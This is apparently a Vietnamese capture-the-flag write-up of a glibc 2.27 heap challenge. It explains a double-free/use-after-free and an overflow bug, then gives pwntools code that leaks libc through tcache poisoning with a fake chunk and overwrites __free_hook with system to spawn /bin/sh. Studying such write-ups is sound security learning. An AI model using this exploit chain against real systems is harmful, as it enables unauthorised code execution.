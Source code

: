 **1.Find bug**
  - ![image](https://user-images.githubusercontent.com/113702087/220030510-859dae24-8668-41e8-9bde-a9f9eaab5c06.png)
  - PIE và Fortify tắt.
  - ![image](https://user-images.githubusercontent.com/113702087/220022145-4c49d73e-b46c-4791-91fe-aef24fdd12c1.png)
  - chương trình thực hiện nhập name tại 0x602060 và thực thi read data trên heap được cấp phát tại 0x602088, tuy nhiên giới hạn của việc free là 8 lần.
  - Tại hàm info ta có thể in ra name.
  - do libc-2.27 nên ta có thể double free đê gây lỗi uaf.
  - ![image](https://user-images.githubusercontent.com/113702087/220031133-961eedfe-ec72-4ba1-bf49-77ac6223b435.png)
  - ta có thể thấy rằng khi tại hàm Malloc() nó thực hiện read_input(ptr, uint(size - 16)) nếu size < 16 thì có thể read với size lớn gây lỗi heap overflow.
  - Dựa vào các lỗi trên ta có thể leak libc = cách đưa addr libc vào tcache và giải phóng name lúc đó name -> libc, lúc này ta dùng info để leak libc ra. Khi có libc thì có thể overwrite free_hook thành system
  - ta sẽ chọn địa chỉ name+16 là fake chunk và libc là stderr

**2. Exploit**
 ### Leak libc
  - Để đưa libc và fakechunk về cùng 1 chunk thì ta cần control size = 0x90 của chunk, với fakechunk thì khá dễ vì ta có thể control nó bằng cách nhập từ name
  - `r.sendafter(b'Name', b'\x41'*8 + p64(0x91))` tạo size cho fakechunk
  - Tạo 4 chunk và giải phóng nó.
  ```python
  malloc(size_, b'a')
  freeandinfo(b'2')
  freeandinfo(b'2')
  malloc(size_ + 24, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 40, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 56, b'aaaa')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220078906-f8d92564-7224-4794-896f-5c5904c9fdc3.png)
  - chunk đầu ta sẽ dùng double free, overflow nó để control các chunk dưới, và chứa lbic_stderr+30 để control size libc_stderr
  - chunk 2 ta đưa stderr, cấp phát vào stderr và thay đổi nó thành libc_stderr-0x30 thay đổi stderr ở chunk 1
  - chunk 3 đưa fakechunk vào để có thể free vào chunk mong muốn ( ở đây là chunk chứa libc)
  - chunk 4 cũng là fakechunk để ta có thể control được ptr vì chương trình đã giới hạn việc free.
  - setup các chunk
  ```
  payload = p64(stderr) + b'\x00'*16 + p64(0x31) + p64(stderr) + b'\x00'*32 + p64(0x41) + p64(name_addr + 16) + b'\x00'*48 + p64(0x51) + p64(name_addr + 16)

  malloc(size_, payload)
  malloc(size_ + 24, b'a')
  malloc(size_ + 24, b'\x50')
  malloc(size_, b'a')
  malloc(size_, b'a')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220079920-00e4a33c-1fc8-4b36-a435-32a44e3e3f61.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220081175-9c7c37e6-f9d1-4c71-999e-2e3d788289c4.png)
  - thay đổi size libc_stderr và đưa vào tcache_c
  ```
  payload = b'\x00'*40 + p64(0x91)
  malloc(size_, payload)
  malloc(size_ + 24, b'\x87')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220081883-10198633-7bb4-4635-b8cb-092b55a79ee3.png)
  - Sau khi đưa libc_stderr vào tcache ta free(fakechunk) tcache 0x90: `fakechunk->libc_stderr`
  ```
  malloc(size_ + 40, b'a')
malloc(size_ + 40, b'a')
freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220082718-35ee95cc-6b5b-40b2-8d54-055eb2a4ebec.png)
  ```
  freeandinfo(b'3')
r.recvuntil(b'Name :')
r.recv(16)
out = r.recv(8)
libc.address = u64(out) - 0x3ec680
print(hex(libc.address))
  ```
 ### Overwrite free_hook và lấy shell
  ```
  malloc(size_ + 56, b'a')
malloc(size_ + 56, p64(libc.sym['__free_hook']))
malloc(size_ + 120, b'a')
malloc(size_ + 120, p64(libc.sym['system']))

malloc(size_ + 112, b'/bin/sh')
freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220083309-d75596e1-2280-48f3-9445-32870d89c9f7.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220083419-b37a7326-e416-4023-aaca-f1cbb5b3303e.png)

